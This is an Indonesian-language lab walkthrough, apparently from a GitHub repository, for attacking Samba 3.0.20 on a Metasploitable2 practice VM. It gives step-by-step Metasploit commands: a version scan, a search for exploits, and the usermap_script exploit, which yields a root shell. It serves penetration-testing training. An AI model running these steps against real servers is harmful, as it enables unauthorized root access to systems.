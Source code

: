 # Exploit port 139 dan 445 (SMB)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%201.JPG)

- Gunakan modul `auxiliary/scanner/smb/smb_version` untuk mengetahui versi samba yang digunakan di server
```sh
use auxiliary/scanner/smb/smb_version
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%202.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%203.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%204.JPG)

- Jalankan modul tersebut. Disini didapat informasi bahwa file server yang digunakan adalah samba versi `3.0.20`
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%205.JPG)

- Buka terminal baru gunakan tool searchsploit untuk mencari kelemahan samba versi `3.0.20`
```sh
searchsploit samba
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%206.JPG)

- Buka kembali tool metasploit dan lakukan pencarian modul exploit untuk samba
```sh
search samba
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%207.JPG)

- Disini kita gunakan modul `exploit/multi/samba/usermap_script` yang ada di list nomor 8 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%208.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%209.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%2010.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%2011.JPG)

- Jalankan modul tersebut. Setelah dijalankan, exploit berhasil mengakses masuk ke dalam server. Jika diketik perintah whoami maka kita berhasil masuk sebagai user root
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMB/smb%2012.JPG)